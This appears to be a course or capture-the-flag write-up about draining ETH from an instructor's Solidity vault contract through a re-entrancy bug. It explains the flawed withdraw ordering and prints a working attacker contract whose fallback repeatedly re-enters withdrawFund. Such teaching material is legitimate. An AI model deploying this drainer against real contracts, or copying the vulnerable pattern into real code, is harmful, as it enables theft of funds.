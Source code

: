 ### challenge: try to hack deployed contract and withdraw ETH fund!

Instructor deployed a contract at 0x6bf109EB4166fd72f4CA2EcCa8987d00Fb8B3750. We are trying to attack it by leveraging the re-entry bug as shown in the below:

```solidity
function basicWithdraw(address dst) internal returns (bool) {
    require(this.balance >= 0.0005 ether);
    bool res = dst.call.value(0.0005 ether)();
    return res;
}
    
function withdrawFund(address dst) onlyAuthorized external returns (bool) {
        require(now > nextWithdrawTime);
        assert(withdrawObserver.call(bytes4(sha3("observe()"))));
        bool res = basicWithdraw(dst);
        nextWithdrawTime = nextWithdrawTime + withdrawCoolDownTime;
        return res;
    }
```
Here **basicWithdraw** used "call" method to withdraw money, which will continue to execute even though result value is false. It is an unsafe function to use. Much worse, **withdrawFund** function modified the nextWithdrawTime after calling basicWithdraw, so that it will never have chance to change nextWithdrawTime if program keeps re-entering the withdrawFund/basicWithdraw function! Therefore, attacker can keep withdrawing funds from the contract!

Here is the attacker function. It has a fallback function that keeps calling withdrawFund 10 times, therefore, causing re-entry error.
```solidity
contract Hacker {
    
    TimeDelayedVault ba;
    uint public stack = 0;
    
    function Hacker(address baAddress) {
        ba = TimeDelayedVault(baAddress);
    }
    
    function attack() {
        ba.withdrawFund(this);
    }
    
    function() payable {
        if (stack++ < 10) {
            ba.withdrawFund(this);
        }
    }
}
```
